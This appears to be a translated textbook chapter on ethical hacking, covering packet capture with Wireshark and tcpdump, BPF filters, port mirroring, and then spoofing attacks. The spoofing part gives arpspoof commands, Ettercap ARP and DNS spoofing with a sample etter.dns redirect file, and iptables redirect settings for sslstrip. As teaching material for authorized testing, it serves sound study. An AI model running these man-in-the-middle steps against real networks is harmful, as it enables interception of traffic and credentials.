    .... 0101 = Header Length: 20 bytes (5)
    Differentiated Services Field: 0x00 (DSCP: CS0, ECN: Not-ECT)
    Total Length: 159
    Identification: 0x0000 (0)
    Flags: 0x0000 (Don't fragment)
    Time to live: 64
    Protocol: TCP (6)
    Header checksum: 0x9702 [validation disabled]
    [Header checksum status: Unverified]
    Source: 192.168.86.26
    Destination: 52.109.88.39
Transmission Control Protocol, Src Port: 53394, Dst Port: 443, Seq: 218, Ack: 5672, Len: 107
    Source Port: 53394
    Destination Port: 443
    [Stream index: 28]
    [TCP Segment Len: 107]
    Sequence number: 218    (relative sequence number)
    [Next sequence number: 325    (relative sequence number)]
    Acknowledgment number: 5672    (relative ack number)
    ... .... = ACK
    Flags: 0x018 (PSH, ACK)
    Window size value: 2848
    [Calculated window size: 131072]
    [Window size scaling factor: 64]
    Checksum: 0xF513 [unverified]
```

这使得理解您所看到的内容容易得多。Wireshark 还了解许多其他协议。它甚至可以在一定程度上帮助您理解加密通信。如果您查看帧列表，可以看到用于设置 TLS 会话加密的不同帧。在 Wireshark 窗口中间的解码窗格中打开协议，您可以看到具体内容，如图 9.3 所示。您可以看到正在使用的 TLS 版本以及正在发送的具体消息。您根据头部信息知道这一点，因为整个消息尚未被加密。

### 图 9.3 TLS 信息

```
Frame 1253: 69 bytes on wire (480 bits), 69 bytes captured (480 bits) on interface 8
Ethernet II, Src: Apple_Be:c3:49 (f0:18:98:bc:c4:69), Dst: Tp-LinkT_7d:f4:8a (18:d6:c7:7d:f4:8a)
Internet Protocol Version 4, Src: 192.168.86.26, Dst: 13.107.136.9
Transmission Control Protocol, Src Port: 53406, Dst Port: 443, Seq: 292, Ack: 5690, Len: 6
Secure Sockets Layer
    TLSv1.2 Record Layer: Change Cipher Spec Protocol: Change Cipher Spec
        Content Type: Change Cipher Spec (20)
        Version: TLS 1.2 (0x0303)
        Length: 1
        Change Cipher Spec Message
```

在进行数据包捕获时，加密始终是一个问题。加密的目的在于只有发送方和接收方可以阅读消息。会话密钥（例如用于 TLS 加密 Web 消息的密钥）是在会话期间派生的。这是通过使用证书来完成的，证书包含公钥和私钥。在对称密钥派生过程中，这些密钥用于共享信息。要解密任何信息，您需要会话密钥，这意味着您需要拥有证书信息，以便能够处于对话中间，从而获取密钥。

> 您经常会看到 SSL/TLS 被用于加密。SSL（安全套接层）已被弃用，信誉良好的网站不再使用它。许多浏览器甚至不允许基于 SSL 的连接。因此，您现在看到的全是 TLS，这意味着继续提及 SSL 已经没有多大意义。

Wireshark 确实具有使用 RSA（Rivest、Shamir、Adleman，即创建该算法的人的名字）密钥来解密已加密 TLS 消息的能力。图 9.4 显示了首选项视图，您可以在其中添加 RSA 密钥。这可能允许您解密 TLS 消息。您还可以看到一个输入预共享密钥的位置。在某些情况下，您可能会看到使用预共享密钥的加密，这基本上意味着双方已经知道的一个密码。密钥已事先在双方之间共享（预共享）。

### 图 9.4 RSA 密钥首选项


迄今为止您看到的所有内容都可以使用，无论您是在 Wireshark 中打开已保存并打开的文件，还是实时进行了捕获。Wireshark 可以打开由 tcpdump 或 tshark 写入的任何文件。当然，它也可以保存自己的捕获。要从 Wireshark 创建捕获，有多种途径


你可能会采取。当你启动 Wireshark 时，你会看到一个主屏幕，如图 9.5 所示。从这里，你可以单击工具栏中的鲨鱼鳍图标，在默认（或主）接口上启动捕获。

### 图 9.5 Wireshark 主屏幕


如果你想要从非默认接口捕获，只需在主屏幕的列表中选择其中一个接口即可。双击即可开始捕获。如果你不确定，可以看看迷你图表。这会显示有流量的接口以及随时间变化的流量大小。大概不值得从任何没有显示流量通过的接口捕获流量。

Wireshark 还支持过滤。你可以在捕获时设置过滤器，如图 9.5 所示，在“Capture ...Using this Filter”（捕获...使用此过滤器）字样处。那里有一个编辑框，你可以在其中输入过滤器，以限制 Wireshark 捕获的内容。捕获完成后，你还可以使用显示过滤器。这将保留所有帧完整，但仅显示与你输入的过滤器匹配的帧。Wireshark 在操作过程中会有用地提供提示。图 9.6 显示了一个基于你输入内容的建议窗口。这使得创建有效的过滤器变得更加容易。

### 图 9.6 Wireshark 中的捕获过滤器


图 9.6 显示捕获过滤器，但如果你正在构建显示过滤器，Wireshark 也会提供帮助。在操作过程中，它还会有用地为编辑框着色。一旦输入了有效的过滤器语法，编辑框会变为绿色。从你开始输入起，直到输入有效的过滤器语法之前，编辑框将呈红色。至于显示过滤器，你可以对 Wireshark 理解的任何协议的任何字段进行过滤。例如，你可能正在查找 IP TTL 为 13 的所有数据包。在 Wireshark 中，你可以进行非常细粒度的过滤。如果你需要浏览数十万个已捕获的帧，这将大大简化工作。

## Berkeley 包过滤器 (BPF)

到目前为止我们所看到的所有数据包捕获工具都可以使用 Berkeley 包过滤器 (BPF)。BPF 是系统数据链路层的一个接口。BPF 被许多系统和应用程序使用，包括 tcpdump、tshark 和 Wireshark。编写 BPF 包含许多原语，如 host、ether、net 和 proto。你可以对这些原语中的每一个使用诸如 src 或 dst 之类的修饰符。这意味着你可以根据源主机或目标主机进行过滤，举几个例子。你还可以通过使用 ip 和 ip6 修饰符根据 IPv4 或 IPv6 进行过滤。当你将过滤器附加到 tcpdump 命令行时，tcpdump 只会捕获并显示通过过滤器的数据包。

举例来说，前一段中的 tcpdump 示例实际上是在一个 Linux 系统上捕获的（坦白说，我在那里有一个简单的提示符），我通过 SSH 登录到了该系统。当你通过 SSH 连接到系统并运行数据包捕获时，绝大多数数据包将是 SSH 数据包。你真正关心的任何流量都会在 SSH 流量中淹没。想一想。你运行 tcpdump，tcpdump 会向你发送一条消息指示它正在运行。tcpdump 捕获一个数据包并显示它。为了显示它，会有包含显示文本的 SSH 数据包发送到你这里。这个内容会被捕获，捕获结果会发送到你这里。如此循环。为了捕获有用的内容而不只是所有 SSH 数据包，实际运行的捕获命令将是 tcpdump not port 22。

这里你可以看到不带任何过滤器的 tcpdump 输出，tcpdump 是通过一个 SSH 会话运行的。这是一个非常小的样本。你会看到，发送的消息是 SSH 和 DNS 请求，因为每个捕获的数据包在显示前都必须将 IP 地址解析为主机名。你可以这样循环很长时间。在终止捕获所用的一两秒钟内，捕获了超过 4,000 个数据包。

### 不带过滤器运行 tcpdump

```
root@quiche:~# tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
18:32:07.835797 IP quiche.lan.ssh > yazpistachio.lan.64631: Flags [P.], seq 3616191731:3616191919, ack 453098787, win 315, options [nop,nop,TS val 16893480 ecr 1259709774], length 188
18:32:07.836406 IP quiche.lan.60511 > testwifi.here.domain: 58726+ PTR? 26.86.168.192.in-addr.arpa. (44)
18:32:07.838352 IP testwifi.here.domain > quiche.lan.60511: 58726* 1/0/0 PTR yazpistachio.lan. (100)
18:32:07.838530 IP quiche.lan.60657 > testwifi.here.domain: 4670+ PTR? 57.86.168.192.in-addr.arpa. (44)
18:32:07.840275 IP testwifi.here.domain > quiche.lan.60657: 4670* 1/0/0 PTR quiche.lan. (94)
18:32:07.840505 IP quiche.lan.ssh > yazpistachio.lan.64631: Flags [P.], seq 188:408, ack 1, win 315, options [nop,nop,TS val 16893485 ecr 1259709774], length 220
```

你可以组合不同的过滤原语。例如，你可以在下面的代码清单中看到，如何捕获来自或发往主机 192.168.86.1 的 TCP 数据包。对于复杂过滤器以及为了清晰起见，你可以使用括号来隔离参数。你会注意到这里使用的反斜杠，用于确保 Linux shell 不会尝试解释它们，并且它们作为括号被传递给 tcpdump。

### 带有 BPF 的复杂过滤器

```
root@quiche:~# tcpdump tcp and \(host 192.168.86.1\)
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
18:41:33.287262 IP quiche.lan.43790 > testwifi.here.http: Flags [S],
 seq 674275431, win 29200, options [mss 1460,sackOK,TS val 2412954967
ecr 0,nop,wscale 7], length 0
18:41:33.288206 IP testwifi.here.http > quiche.lan.43790: Flags [S.],
 seq 239316039, ack 674275432, win 28960, options [mss 1460,sackOK,TS val
 235265600 ecr 2412954967,nop,nop,wscale 7], length 0
18:41:33.288269 IP quiche.lan.43790 > testwifi.here.http: Flags [.], ack 1,
 win 229, options [nop,nop,TS val 2412954968 ecr 235265600], length 0
18:41:37.111956 IP quiche.lan.43790 > testwifi.here.http: Flags [F.], seq 1,
 ack 1, win 229, options [nop,nop,TS val 2412958792 ecr 235265600], length 0
18:41:37.113495 IP testwifi.here.http > quiche.lan.43790: Flags [F.], seq 1,
 ack 2, win 227, options [nop,nop,TS val 235265982 ecr 2412958792], length 0
18:41:37.113515 IP quiche.lan.43790 > testwifi.here.http: Flags [.], ack 2,
 win 229, options [nop,nop,TS val 2412958793 ecr 235265982], length 0
```

请记住，当你在使用 tcpdump 的命令行上使用 BPF 时，你使用的是捕获过滤器。这意味着你看不到任何未通过过滤器的内容。如果你将捕获写入文件，你不会拥有任何未通过过滤器的内容。如果你指望以后对捕获的文件进行分析，你应该确保以后不需要那些数据包。在将过滤器应用于捕获之前，请仔细考虑你使用的过滤器。

## 端口镜像/展开

在过去，当所有东西都使用简单集线器时，集线器只是没有智能的电气中继器，从网络中任何位置获取流量都很容易。然后交换机出现了。交换机是在网络设备上在第 2 层进行过滤以改善网络性能和安全性的设备。交换机知道哪些系统连接到它的哪个端口。当一个带有目标 MAC 地址的帧到达时，交换机可以查找 MAC 地址所在的端口，并将帧从该端口发送到目标系统。
这样一来，网络上的其他系统永远看不到该帧通过它们的网络接口。如果你查找的流量没有通过你的网络接口，这使得捕获数据包变得更加困难。

绕过这一点的一种方法是获得对交换机的访问权限。这将允许你配置交换机以镜像端口。这意味着任何通过一个端口的流量都将被镜像到另一个端口。你可能能够将多个端口镜像到一个端口，这样就可以监控多个系统之间的进出流量。如果你只能监控一个端口，可以考虑镜像通往网关/路由设备的端口。这意味着你可以看到进入和离开网络的流量，这可能比仅监控单个端点能让你访问更多敏感信息。

在 Cisco 设备上，用于配置端口镜像的功能称为交换机端口分析器 (SPAN)。当你设置端口镜像时，你正在配置一个 SPAN 端口。因此，你可能会听到该过程被称为端口展开。其他交换机供应商可能对该过程使用其他术语。

镜像端口时需要考虑的一点是超订阅的概念。如果你有五个 1g 交换机端口并将它们镜像到一个 1g 端口，则存在超订阅接收端口的可能性。这意味着你可能会轻易丢弃试图捕获的数据包，数据包基本上是随机的，这取决于何时有太多传入数据无法发送出去。

## 数据包分析

归根结底，数据包分析可能是你最初捕获数据包的主要原因之一。一旦你有了数据包，你会想要更仔细地查看它们，包括过滤、跟踪通信流，甚至可能查看数据包捕获中的统计信息和其他可视化内容。这是 Wireshark 表现出色并能为你提供很大帮助的另一个领域。如前所述，Wireshark 真正理解协议，这意味着它不仅可以解码协议，还可以告诉你可能存在协议违规的位置。Wireshark 可以在许多其他地方使浏览数据包捕获变得容易得多。

Wireshark 非常擅长确定未直接提供的信息。它会根据规则集在帧列表中识别问题并为帧着色。这些规则集可以更改和添加。默认规则会将带有错误的帧着色为黑色背景配红色文本。一旦你在帧列表下方的窗口中打开数据包，就可以获取错误的详细信息。在 Wireshark 中，任何地方看到方括号 []，你查看的都是 Wireshark 提供的、它从接收到的消息中计算或推断得出的数据。例如，图 9.7 显示了一个带有错误的帧的详细信息。你会看到 Wireshark 在方括号中提供信息的位置，以帮助你。


图 9.7 报文分析


Wireshark 会为你处理计算，从而让生活更轻松。当 TCP 连接启动时，会生成序列号，为了防止 TCP 连接被伪造，初始序列号应为随机数。序列号为 4 字节，因此是大数字。序列号会根据传输的字节数递增。如果你自己尝试进行此加法运算，将花费一些时间来跟踪序列号和确认号。相反，为了简化，Wireshark 为你提供相对序列号。根据 Wireshark，第一个序列号为 1。随后，相对序列号会按你通常的预期递增。图 9.8 显示了带有相对序列号的 TCP 头部。

图 9.8 相对序列号


属于特定会话的数据包（或帧）可能分布在整个数据包捕获中。你可能会发现很难从会话中的一个数据包移动到另一个数据包，尤其是中间有大量帧传递时。Wireshark 允许你跟随流。这可以通过右键单击属于该会话的帧时出现的上下文菜单来完成。例如，如果你选择“跟随 TCP 流”，Wireshark 会为你创建一个显示过滤器，仅显示属于该会话的帧。此外，Wireshark 会从有效载荷中提取数据并呈现给你。例如，对于 HTTP 会话，你会看到客户端和服务器之间的 HTTP 消息文本。图 9.9 显示了显示 HTTP 会话文本的对话框。客户端消息带有粉色背景和红色文本，而服务器消息则为蓝色，带有淡紫色或浅紫色背景。在底部，你会看到显示“将数据另存为并显示”，并且 ASCII 被选中。还有其他选项，包括原始、C 数组和 YAML。

图 9.9 Follow TCP Stream 对话框


Wireshark 还具有从数据包捕获中呈现统计信息的重大功能。有一个统计菜单，其中有许多选项。其中之一是协议层次结构。这会根据协议之间的关系，以层次结构显示捕获中识别的每个协议。例如，如图 9.10 所示，所有内容都是帧，所有这些帧都是以太网。在所有以太网帧中，此特定捕获中的所有内容都是 IP 数据包。从那里，5.5% 是 UDP 数据报。SSDP、MDNS 和 DNS 都是使用 UDP 作为传输层协议的协议。捕获的大多数数据包都是 TCP 段。其中大多数是 SSL，尽管实际上它们全都是 TLS，即 SSL 的继任者协议。

图 9.10 协议层次结构统计信息


统计菜单中另一个值得查看的条目是会话视图。这显示数据包捕获中端点之间的所有会话。捕获的每一层都有不同的会话集合，因为第 2 层会话与 IP 地址会话不同。任何从本地网络传出的 IP 会话都与本地网关有一个第 2 层会话。这意味着你可能拥有的以太网会话少于 IP 会话。此外，你的 TCP 会话将不同于你的 IP 会话。你可能在两个 IP 地址之间拥有多个端口集。如果你的本地浏览器为请求图像、HTML 页面和其他进入页面渲染的资源与 Web 服务器建立多个连接，这一点尤其正确。图 9.11 显示了来自数据包捕获的会话统计信息。

最后一个值得查看的功能在“分析”菜单中。Wireshark 在接收帧和数据包时会对其进行分析。我们之前通过查看帧列表和查看颜色研究过其中一些。此外，当我们查看协议解码时，可以看到在 Wireshark 识别的信息位于方括号中的情况下出现的错误。你不需要浏览整个数据包捕获文件来一次一个地查找错误。相反，如果你进入“分析”菜单，可以选择专家信息，这将显示 Wireshark 识别为有问题的所有帧。在图 9.12 中，你可以按类别查看所有专家信息。你会看到错误、警告、注释和聊天。如果你打开每个条目，将得到一组帧列表。单击其中一个条目会带你进入捕获中的该帧，以便你可以查看其详细信息。

图 9.11 会话统计信息


图 9.12 专家信息


数据包捕获中我们未花费任何时间研究的一个元素是时间戳。数据包不包含时间戳，因此查看大多数帧或数据包无法得知帧通过网络的时间。当你查看 Wireshark 中的时间列时，你会发现一个相对时间。这相对于捕获的开始。这对你可能没什么用。幸运的是，数据包捕获文件会在元数据中包含捕获开始的时间。这意味着你可以将 Wireshark 中显示的时间更改为绝对时间。这假设捕获文件中的时间和时区是正确的，因为它依赖于捕获系统的配置。

## 欺骗攻击

你可能不必只捕获发往你系统的数据包，或通过重新配置交换机送到你手中的数据包。还有其他方式可以让消息送到你手中。这可以通过使用不同类型的欺骗攻击来完成。欺骗攻击是指你假装成一个你并非的系统。你可以从不同层次来处理这个问题，从第 2 层开始。你也可以在更高层次进行欺骗，使用 DNS 让系统将流量发送到你想要的系统。欺骗攻击允许你位于两个端点之间的对话中间。

这就带来了一个你需要牢记的问题。如果你正在运行欺骗攻击，这意味着对话的至少一端可能无法到达适当的端点。如果一切看起来不正常，有人就会开始怀疑。这意味着你需要确保自己在做一些使对话完整的事情。如果有人开始怀疑有什么不对劲，他们可能会开始寻找原因，这可能意味着你会被识别并被抓住。推测，如果你正在运行欺骗攻击，你不希望被识别并被抓住。与往常一样，你需要确保你是为了善而非恶而使用这些能力。

## ARP 欺骗

地址解析协议 (ARP) 有两个阶段。第一个是请求，其中一个系统知道 IP 地址但不知道相应的 MAC 地址。它发送一个 ARP 请求，询问拥有该 IP 地址的系统用其 MAC 地址进行响应。响应是系统回复，向请求者指示其 MAC 地址。然而，没有任何东西来验证该请求。理论上，任何人都可以使用自己的 MAC 地址响应该请求，以诱导请求系统将消息发送到攻击者/欺骗者的地址。我们可以简单地不等待请求，直接发送响应，使其更加容易。

为了效率，系统会接受任何 ARP 响应，即使它们没有请求，并缓存映射。这样，如果将来需要 MAC 地址，它们就不必再去请求了。这是一个我们可以利用的功能。我们可以直接发送 ARP 响应，将我们想要的网络上的任何 IP 地址映射到我们的 MAC 地址。这将导致本地网络上的所有系统将消息发送给我们，因为我们的地址在它们的 ARP 缓存中。在没有相应 ARP 请求的情况下直接发送 ARP 响应的过程称为 gratuitous ARP，意味着这是一条未被请求的 ARP 消息。

我们面临的一个问题是 ARP 条目被缓存的时间长度。在 Linux 系统上，默认缓存长度为 60 秒。你可以从 /proc 伪文件系统中的一个条目检查它，如下面的代码清单所示。你也可以通过将 60 替换为另一个值来更改此行为。在 Windows 系统上，缓存时间不同。Microsoft 选择遵循 RFC4861（适用于 IPv6）来进行 IPv4 实现。从 Windows Vista 开始，Microsoft 有一个基础时间 30,000 毫秒，该时间乘以 0.5 到 1.5 之间的随机值以获得缓存持续时间。这意味着它从一个系统到另一个系统不同，也从一次启动到另一次启动不同。

### Linux 上的 ARP 缓存持续时间

```
cat /proc/sys/net/ipv4/neigh/default/gc_stale_time
60
```

由于缓存可能很快超时，我们必须不断发送 gratuitous ARP 响应。显然，这最好通过编程方式完成，而不是手动完成。尤其是由于还有另一个问题。当我们将消息重定向到我们的系统时，我们确实需要将它们使用正确的 MAC 地址（在目标字段中）转发回网络。否则，对话不会发生。TCP 连接永远不会完成，因为 SYN 或 SYN/ACK 永远无法到达适当的目标系统。相反，它被发送到我们的系统，除非我们采取行动，否则会在那里中断。这需要启用转发，以便我们劫持的消息可以通过同一接口转发回去，到达其预定目标。

有一些程序可用于处理 ARP 欺骗。其中之一 arpspoof 已经存在很长时间了。它由 Dug Song 编写，他还编写了一个名为 fragroute 的程序，该程序本身也很有用。使用 arpspoof，我们可以将自己注入到网络上两个系统之间。我们可以告诉 arpspoof 我们想要伪装成哪两个 IP 地址。它会为我们处理其余的事情。在下面的代码清单中，你可以看到一次 arpspoof 运行，其中我选择了网络上的默认网关作为我要伪装的目标。这意味着我会收到发往默认网关的消息，因此任何要离开本地网络的流量都将发送到运行 arpspoof 的系统。你将看到正在发送的 gratuitous ARP 响应。它们每隔几秒钟发送一次，以确保没有 ARP 缓存条目过期。


## 使用 arpspoof

```
kilroy@zaphod:~ $ sudo arpspoof -i eth0 -c both 192.168.86.1
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
0:1c:42:38:62:8e ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.86.1 is-at 0:1c:42:38:62:8e
^CCleaning up and re-arping targets...
```

我并没有选择一对主机来中继，而是基本上表明我想位于整个网络和默认网关之间。这种方法的问题是，只有对话的一侧会到达这个系统——即目标为默认网关的那一侧。来自网络外部的响应不会出现在运行 arpspoof 的系统上。可以通过添加 -t 并指定目标 IP 地址，再添加 -r 来指示也应收集反向连接，从而解决此问题。然后，指定的两个系统都将被欺骗，使其流量指向运行 arpspoof 的系统。

另一个可用于 ARP 欺骗的工具——事实上它有多种用途——是 Ettercap。Ettercap 有两种模式。一种是基于控制台的模式。另一种是基于 GUI 的模式。运行 Ettercap 时，必须指定希望它以哪种模式运行。在 GUI 模式下，可以更轻松地选择要攻击的主机。Ettercap 是一个嗅探器，也可用于发起中间人（MitM）攻击。发起 ARP 欺骗攻击时，需要知道 IP 地址到 MAC 地址的映射，并且需要让 Ettercap 检查网络上的主机。首先要做的是告诉 Ettercap：如果运行 Ettercap 的系统上只有一个接口，则要执行 Unified sniff；如果有多个接口，则要执行 Bridged sniff。完成此操作后，其他菜单就会出现。

扫描所有主机后，可以调出主机列表。如图 9.13 所示，可以在 Ettercap 中查看主机列表。主机列表就绪后，可以选择要攻击的主机。由于最终我们讨论的是对话，可以有两个目标来放置主机。这指的是对话的两端。假设你想监听网络上两台主机之间的对话，例如客户端系统和本地域控制器，以便潜在地获取凭据。你可以将一台系统放入 Target 1，另一台放入 Target 2。

选择目标后，可以从 MitM 菜单中选择 ARP Spoof（此处未显示）。该菜单中还有其他选项，如图 9.14 所示。这次，我们只需选择 ARP Spoof。该选择将弹出一个对话框，询问是否要嗅探远程连接以及是否要单向欺骗。在那里做出选择后，欺骗即会开始。

### 图 9.13 Ettercap 主机列表


### 图 9.14 RSA 密钥首选项


欺骗开始后，你可以随意处理突然进入系统的流量。只需抓取数据包，就可以轻松检查流量是否正在到达。这里你看到的是 192.168.86.55 和 192.168.86.1 之间的某些数据包。这些 IP 地址都不属于运行 Wireshark（以及 Ettercap）的系统。这意味着攻击正常工作。我没有选择一对目标，而只是选择了一个单一目标。默认情况下，当 Target 1 中有一个目标且没有其他显式选择时，网络上的所有其他系统都在 Target 2 中。

完成对网络流量的捕获后，请记得停止攻击。你的工具可能会将正确的映射播种到网络中，不过随着时间的推移，错误的 ARP 缓存条目最终会超时。如前所述，在 Linux 系统上，这将在一分钟内完成。在 Windows 系统上，时间则更短。不一定非要将网络恢复正常，但这样做比较礼貌。如果不这样做，可能会对网络造成问题。这可能不会太严重，但任何中断都可能最终导致问题。

## DNS 欺骗

捕获流量的另一种方法是使用一种称为 DNS 欺骗的技术。不过，这比 ARP 欺骗更具针对性。ARP 欺骗撒下非常宽的网，试图捕获每条发送的消息。使用 DNS 欺骗时，我们不一定是为了在抓取现有对话的意义上捕获流量。相反，我们希望目标针对特定请求访问我们控制的系统。我们通过拦截 DNS 请求并向请求方提供响应来实现这一点。我们不是提供合法响应，而是将使用我们自己的地址。当我们的目标之一尝试访问我们感兴趣获取信息的网站时，我们会将其重定向到我们自己设置了网站的 IP 地址。

我们可以再次使用 Ettercap 来做这件事。它特别有用，因为它让捕获 DNS 请求变得容易得多。除非我们能在某处捕获流量，否则很难确保我们收到 DNS 请求，从而知道如何以及何时响应它。与 ARP 不同，我们不能只是向系统发送一个虚假响应并让它缓存地址。这并不是说 DNS 信息不会被缓存。就像 ARP 一样，系统希望尽可能高效。DNS 请求很耗时，因此操作系统不会在非必要时发起请求。在可能的情况下，操作系统会缓存从主机名到 IP 地址的 DNS 映射。这意味着我们只需一次性毒化缓存，系统就可能会持续数天将请求发送到错误的地址。

Ettercap 需要一个配置文件，你在其中设置要欺骗的 DNS 记录。它看起来就像一个 DNS 区域文件，你需要提供记录名称、记录类型以及它映射的目标。在以下代码清单中，你可以看到 DNS 配置文件的示例。在此示例中，主机名 www.foo.com 和 www.wubble.com 都映射到同一个 IP 地址。在该 IP 地址上，由于这些是网站主机名，应该有一个能够处理这些主机名请求的 Web 服务器。此外，还有一个邮件交换机记录的映射。如果你想拦截配置文件中指示域的电子邮件，这可以被使用。我在使用的 Linux 发行版中，该文件的位置是 /etc/ettercap/etter.dns。那里已经有许多条目。

### DNS 配置文件用于 Ettercap

```
#
### Sample hosts file for dns_spoof plugin
#
www.foo.com           A       192.168.86.57
www.wubble.com        A       192.168.86.57
mail.foo.com          A       192.168.86.57

foo.com               MX      192.168.86.57
```

DNS 就绪后，我们需要返回来设置 Ettercap 以拦截流量。这是我们之前做过的同样过程。我们需要嗅探流量，以便 Ettercap 可以看到请求进来。我们还需要使用 ARP 欺骗攻击将网络流量引导到我们的系统，以便我们可以查看 DNS 请求。一旦开始 ARP 欺骗，就可以转到 Plugins 菜单并选择 Manage Plugins。在那里，可以启用 DNS 欺骗插件。这将自动加载先前编辑过的 etter.dns 文件。

> 也许这并不明显，这些攻击仅在本地网络上有效，因为寻址是通过 MAC 地址进行的。这需要用于运行欺骗的接口具有物理网络连接。

在以下清单中，你将看到 Ettercap 从任何被捕获的请求中写出的日志。虽然在前面的代码清单中添加了条目，但文件中的默认条目没有被删除。Microsoft 的网站是被重定向的主机名之一。在这种情况下，它不是被重定向到我们的本地系统，而是被重定向到互联网上的另一个系统。由于我们在此使用 DNS，主机不必位于本地网络上。DNS 将响应一个 IP 地址，请求系统将尝试连接到该 IP 地址。我们需要本地访问的唯一原因是捕获请求。一旦请求被捕获并响应，一切就都是第 3 层及以上了。

### Ettercap DNS 欺骗日志

```
SEND L3 ERROR: 246 byte packet (0800:06) destined to 192.168.86.26 was not
forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable)
)
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not
forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable)
)
```


## Ettercap DNS Spoof Log (continued)

```
SEND L3 ERROR: 83 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
SEND L3 ERROR: 52 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
SEND L3 ERROR: 52 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
SEND L3 ERROR: 48 byte packet (0800:11) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
SEND L3 ERROR: 52 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
SEND L3 ERROR: 245 byte packet (0800:06) destined to 192.168.86.26 was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Network is unreachable))
)
DHCP: [192.168.86.1] ACK : 192.168.86.43 255.255.255.0 GW 192.168.86.1 DNS
192.168.86.1 "lan"
dns_spoof: A [browser.pipe.aria.microsoft.com] spoofed to [107.170.40.56]
```

即使 DNS 请求确实发送到了合法的 DNS 服务器并得到了响应，这种方法之所以有效，是因为 DNS 使用 UDP，因此无需建立连接。基于 UDP 的请求会发送出去，基于 UDP 的响应会返回。一个系统可能会发送多个请求，因为它们是 UDP，且无法保证请求会到达 DNS 服务器。请求系统接收到的第一个响应将被使用。由于 Ettercap 系统在本地网络上，而 DNS 服务器很可能不在本地网络上，因此来自 Ettercap 系统的 DNS 响应应该是第一个返回的。对请求系统的任何后续响应都将被忽略。到那时，etter.dns 中配置的地址已发送回请求系统并填充了该系统上的 DNS 缓存。

## sslstrip

在捕获流量方面，加密消息是一个问题。加密旨在实现端到端传输，这意味着无法在中间插入。任何试图在中间插入的机制都会违背大多数加密方案所期望的端到端特性。

话虽如此，作为道德黑客，试图违反规则和破坏事物是我们的本性。有办法尝试破解加密协议。当然，在使用 SSL 时代，这要容易得多。SSL 在 TLS 出现之前的不同版本中存在多个漏洞。即使 TLS 被引入以取代 SSL（因为 SSL 的漏洞），早期的 TLS 版本也有漏洞，使得加密可能被破解。

sslstrip 程序被开发出来用于捕获 SSL 消息并剥离其中的加密。该程序由 Moxie Marlinspike 开发，配合他在 2009 年 Black Hat 上所做的演示。那时候 SSL 仍然普遍使用，所以成功的机会很大。今天，成功的可能性较小了，因为理想情况下，技术过硬的系统管理员已经移除了 SSL 和 TLS 1.0、1.1 等旧加密机制。如果服务器仅支持 TLS 1.2 及以上版本，SSL strip 将无法工作，因为使其能够工作的漏洞已经得到解决。

你可以将 sslstrip 作为独立程序使用。本质上，sslstrip 充当透明代理，位于服务器和客户端之间。这样做时，在某些情况下它可以将链接从 HTTPS 改为 HTTP。它还使用其他技术，使连接看起来是加密的，但实际上并非如此。作为独立程序，sslstrip 使用了我们之前介绍过的 arpspoof。但是，也可以将 sslstrip 作为 Ettercap 的插件运行。

与我们进行 DNS 欺骗时一样，sslstrip 要求我们已部署 ARP 欺骗。我们可以像之前一样使用 Ettercap 来完成此操作。我们需要像之前一样欺骗互联网网关。在设置 ARP 欺骗攻击时，我们还需要嗅探远程连接。sslstrip 是 Ettercap 的插件，因此可以像启用 DNS 欺骗插件一样启用它。这确实需要在启用插件之前对 Ettercap 进行配置更改。sslstrip 需要知道正在使用什么防火墙命令，以便在防火墙中设置重定向。/etc/ettercap/etter.conf 文件中的以下行被注释掉了。如果你使用 iptables（比 ipchains 更常见，ipchains 是另一个选项），则需要取消注释。

### /etc/ettercap/etter.conf

```
### if you use iptables:
redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port
-j REDIRECT --to-port %rport"
redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port
-j REDIRECT --to-port %rport"
```

完成后，即可启用 sslstrip 插件。它将运行 iptables 命令来启动重定向，以便插件可以接收消息。以下是显示在 Ettercap 内部启动 sslstrip 的日志。

